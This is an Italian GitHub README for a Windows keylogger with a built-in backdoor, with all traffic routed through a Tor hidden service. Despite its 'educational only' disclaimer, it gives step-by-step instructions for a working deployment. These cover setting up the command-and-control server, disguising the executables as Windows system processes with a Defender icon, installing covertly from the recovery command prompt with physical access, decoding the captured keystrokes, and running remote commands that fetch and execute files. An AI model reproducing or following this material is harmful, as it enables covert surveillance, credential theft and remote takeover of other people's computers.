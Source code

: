 <a href="README_ENGLISH.md">CLICK HERE FOR ENGLISH README</a>
<pre>
QUESTO PROGETTO É STATO CREATO SOLO A SCOPO EDUCATIVO E SPERIMENTALE, NON USARLO SU PC CHE NON SONO DI TUA PROPRIETÀ O NON FANNO PARTE DEL TUO LAB VIRTUALE!
ANCHE SE I NOMI SCELTI SONO ULTRA STEALTH NON SIGNIFICA CHE DEVE ESSERE USATO IN MODO SBAGLIATO!
Non mi assumo alcuna responsabilità per eventuali danni diretti, indiretti o collaterali derivanti dall’uso improprio o non autorizzato di questo strumento. L’utilizzo avviene esclusivamente sotto la piena responsabilità dell’utente.
  


--------------------------------------- TheHiddenWiredProject ---------------------------------------

Cosa è TheHiddenWiredProject?
TheHiddenWiredProject (THWP) è un keylogger con backdoor integrata pensato per essere ultra stealth
perchè tutto il traffico generato è instradato via Tor!

È sicuro?
Yeah bro, è 100% safe, il codice lo puoi modificare come vuoi senza problemi, mentre Tor ti aiuta
a nascondere il tuo server (serve per ascoltare il keylogger e usare la backdoor).

Quindi devo configurare un server?
Yeah, è necessario per avere un livello di anonimato abbastanza alto

É pronto all'uso?
Assolutamente no, lo devi compilare tu, è ultra facile, continua a leggere che dopo lo spiego

Lo consigli?
Assolutamente si! Questo tool è estremamente compatto, ma nello stesso tempo ultra stealth,
non troveresti mai un keylogger con una backdoor via Tor su internet!

------------ The Brains Behind THWP ------------
Isass.py ---> Tor Proxy
SecurityHealthSystray.bat ---> Avvia proxy, Brain e Tor
WMIHost.py ---> THWP (Brain)
wuasrv.exe ---> Tor.exe (Scaricato dal sito ufficiale, ma rinominato)
wuasrvs.py ---> Avvio di Tor ritardato per evitare errori
installer.bat ---> Installatore da WindowsPE

----------------------------------------------------------------------------------------------------

Passiamo alla teoria noiosa che è necessaria per configurare il server e compilare THWP

Partiamo dai requisiti necessari...

Un PC o una VM con linux (consiglio una distro debian-based come debian, ubuntu, mint.. ecc...)
Una connessione internet stabile (almeno 2Mbitps)

----------------------------------------------------------------------------------------------------
Creare e configurare il server Tor:

#Per evitare problemi diventa root con "sudo su"

#installa apache e tor
sudo apt install apache2 tor

#esegue ad ogni avvio in automatico
sudo systemctl enable apache2
sudo systemctl enable tor

#esegue i demoni
sudo systemctl start apache2
sudo systemctl start tor

#configura il server apache
cd /var/www/html
sudo rm **
sudo mkdir payloads_httpcmd
cd payloads_httpcmd
sudo nano default.txt (qui ci stanno i comandi che il target eseguirá ogni 60 secondi)

#modifica il file torrc
sudo nano /etc/tor/torrc

#Aggiungi le seguenti informazioni alla fine del file:

HiddenServiceDir /var/lib/tor/serverTHWP
HiddenServicePort 80 127.0.0.1:80

#La prima stringa "HiddenServiceDir" specifica dove tor andrà a salvare la config del server (NON METTERE DIRECTORY CUSTOM PER EVITARE PROBLEMI, LASCIALA COSÍ)
#La seconda stringa hosta sulla porta 80

#Adesso devi riavviare Tor per rendere effettive le modifiche
sudo systemctl restart tor

#Se hai dubbi vai su: https://community.torproject.org/onion-services/setup/
#Oppure chiedi a ChatGPT

#Adesso devi vedere il tuo dominio su tor, lo puoi vedere con:
cat /var/lib/tor/serverTHWP/hostname

#Per evitare problemi diventa root con "sudo su"

----------------------------------------------------------------------------------------------------

Adesso devi configurare TheHiddenWiredProject per fare in modo che indirizza il traffico verso il tuo dominio,
quindi modifica il file Isass.py, trova una variabile che si chiama "TARGET_ONION" (la trovi all'inizio),
e metti il tuo dominio (quello che finisce per .onion che hai trovato dentro il file hostname)

----------------------------------------------------------------------------------------------------

Adesso é tutto pronto! Puoi testare su una VM Windows il funzionamento, se tutto funziona puoi compilare tutto!

Per compilare tutto é necessaria una macchina Windows, useremo nuitka per trasformare i nostri file in python in eseguibili.

1) Installa Python nella macchina Windows (Non da MStore ma dal sito ufficiale)
2) Adesso apri il terminale e digita: pip install nuitka (Se pip non viene trovato, riavvia Windows dopo aver installato Python)
3) Adesso digita: nuitka --onefile --windows-disable-console file.py

#--onefile = unico file .exe
#--windows-disable-console = no prompt quando viene eseguito

4) Esegui nuitka per ogni file .py (Isass.py, WMIHost.py, wuasrvs.py)
5) Dopo aver compilato tutti i file py devi compilare SecurityHealthSystray.bat con Bat-To-Exe-Converter (Cercalo su internet) NB: INSTALLER.BAT DEVE RIMANERE RAW, NON DEVE ESSERE COMPILATO!
6) Aggiungi l'icona di defender al file .bat dentro il compilatore per avere un .exe con l'icona di Defender
----------------------------------------------------------------------------------------------------

Adesso hai quasi finito!
Copia il progetto compilato dentro una pendrive, copia il file installer.bat nella directory principale della chiavetta, rimuovi la cartella "WPE" (É fondamentale)
e il risultato dovrebbe essere questo:

E:\Isass.exe
E:\Installer.bat
E:\SecurityHealthSystray.exe
E:\WMIHost.exe
E:\wuasrv.exe
E:\wuasrvs.exe

Se non corrisponde hai sbagliato qualcosa.


Come lo installo??
1) Avvia Windows
2) Una volta che ti trovi nella schermata di blocco, vai nel menu di spegnimento, tieni premuto "SHIFT" mentre premi su "Riavvia"
3) Dovresti leggere a schermo "Attendere"
4) Dopo il riavvio vai su: Risoluzione dei problemi > Opzioni avanzate > Prompt dei comandi
5) Adesso cerca la lettera della chiavetta (varia da PC a PC), prova dalla C alla J (basta scrivere nel prompt la lettera seguita dai due punti, quindi "c:")
6) Una volta trovata la pendrive esegui installer.bat
7) Il PC si riavvierá da solo e TheHiddenWiredProject sará installato!
8) Divertiti!
----------------------------------------------------------------------------------------------------

Adesso come controllo i tasti premuti?
I tasti premuti vengono salvati nel server su "/var/log/apache2/access.log" in base32 in stack da 32 caratteri, bisogna decodificare da base32 a plaintext, basta cercare su internet "base32 to text", incolli la request e vedi i tasti premuti.

Esempio:
root@debianVM:/var/log/apache2# cat access.log
127.0.0.1 - - "GET /CODICE_UNIVOCO_GENERATO/MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" 404
127.0.0.1 - - "GET /CODICE_UNIVOCO_GENERATO/ORSXG5BBEE======" 404

Prendiamo in considerazione solo la base 32, quindi questa: MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA e questa: ORSXG5BBEE======
se la decodifichiamo diventa: 

stack1 "MNUWC33PFQQHC5LFON2G6IGDVEQHK3RA" = ciaoo, questo é un 
stack2 "ORSXG5BBEE======" = test!!

----------------------------------------------------------------------------------------------------

Invece per eseguire codice nella macchina, tramite la backdoor, basta modificare il file: /var/www/html/payloads_httpcmd/default.txt
e scrivere codice shell per Windows, e verrá eseguito con i privilegi dell'utente corrente, possiamo anche scaricare file con curl ed eseguirli.
Ma attenzione, devi fare in modo che il codice shell non venga eseguito in loop, perché cosí rischi di fare casino, quindi una volta che vedi 
la richiesta del payload rimuovi il contenuto di default.txt, altrimenti il codice verrá eseguito ogni 60 secondi!

----------------------------------------------------------------------------------------------------

DIVERTITI IN MODO ETICO E SANO, SENZA FARE DANNI REALI A PERSONE, DATI O SISTEMI CHE NON TI APPARTENGONO!

                                                             Creato al 100% con la testa di ElektroWindows :)

</pre>

